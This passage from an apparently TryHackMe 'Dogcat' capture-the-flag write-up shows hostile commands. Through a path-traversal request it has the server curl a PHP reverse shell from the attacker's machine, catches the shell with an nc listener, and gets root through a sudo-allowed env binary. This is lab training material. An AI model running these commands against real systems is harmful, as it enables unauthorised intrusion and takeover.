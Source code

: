 Then I opened a http server in the directory I had the modified php shell:

```python
python -m http.server
```

Then download the file with curl:

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=curl -o shell.php {TUN0}:8000/shell.php
```

Before we open the file, we have to listen for incoming connection on the port we defined in the php shell on our machine:

```bash
nc -lnvp {PORT}
```

Then open the shell on the server:

```bash
http://$IP/shell.php
```

Sadly we can’t stabilize that shell with some poor mans pentest, because python is not installed.

## Getting Root

Let’s just run some code to see if there are some SUIDs we can run:

```bash
sudo -l
```

As you can see we can run /usr/bin/env with no password.

![](/static/images/Dogcat-TryHackMe/sudo.png)

Give it a search on GTFOBins to see how we can get a root shell:

![](/static/images/Dogcat-TryHackMe/gtfobins.png)

And there you go, you got a root shell!

![](/static/images/Dogcat-TryHackMe/whoamiroot.png)

### Flag 3

The 3rd flag is in the **/root** directory. You can just cat it out, just like the previous ones.

![](/static/images/Dogcat-TryHackMe/flag3.png)

### Flag 4

The problem with the 4th flag is, that it is outside of this container. This might sound confusing, but the essence is, is that we just have to get another shell.
